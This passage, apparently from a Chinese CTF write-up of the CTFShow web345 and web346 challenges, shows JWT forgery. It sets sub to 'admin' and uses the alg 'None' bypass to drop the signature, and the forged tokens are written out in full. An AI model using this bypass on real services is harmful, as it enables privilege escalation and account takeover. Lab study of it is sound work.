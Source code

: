 alg为None算法，无签名认证

下面构造payload：

```
[
  {
    "iss": "admin",
    "iat": 1696317561,
    "exp": 1696324761,
    "nbf": 1696317561,
    "sub": "user",
    "jti": "54faa4bd3108499bee219367c90bc09d"
  }
]
```

开始转换

```
eyJhbGciOiJIUzI1NiIsInR5cCI6Imp3dCJ9.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2OTYzMTc1NjEsImV4cCI6MTY5NjMyNDc2MSwibmJmIjoxNjk2MzE3NTYxLCJzdWIiOiJhZG1pbiIsImp0aSI6IjU0ZmFhNGJkMzEwODQ5OWJlZTIxOTM2N2M5MGJjMDlkIn1d.
```

由于无签名认证，只取前面的部分。

获得flag。

![](F:/CTFShow-Web/Web入门/jwt/web345/flag.png)



### web346

启动靶机，进入环境。一个熟悉的where is flag?

然后又是/admin，抓包

得到了Cookie:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMDE5NiwiZXhwIjoxNjk2MzI3Mzk2LCJuYmYiOjE2OTYzMjAxOTYsInN1YiI6InVzZXIiLCJqdGkiOiI1ZmMwYWQwMWFkZTgzNDBmNGM2ODRiMzkyMDk5NjZhOCJ9.K4uexoNrg9Yw6bxg2e3GcoJTXvwXYC5HLQat0PjGzdw
```

![](F:/CTFShow-Web/Web入门/jwt/web346/Cookie检查.png)

HS256&Invalid Signature

使用None算法绕过签名，将alg更改为none。

构造payload：(此处必须使用脚本)

```
eyJhbGciOiAiTm9uZSIsInR5cCI6ICJKV1QifQ.eyJpc3MiOiAiYWRtaW4iLCJpYXQiOiAxNjk2MzIwMTk2LCJleHAiOiAxNjk2MzI3Mzk2LCJuYmYiOiAxNjk2MzIwMTk2LCJzdWIiOiAiYWRtaW4iLCJqdGkiOiAiNWZjMGFkMDFhZGU4MzQwZjRjNjg0YjM5MjA5OTY2YTgifSA.
```
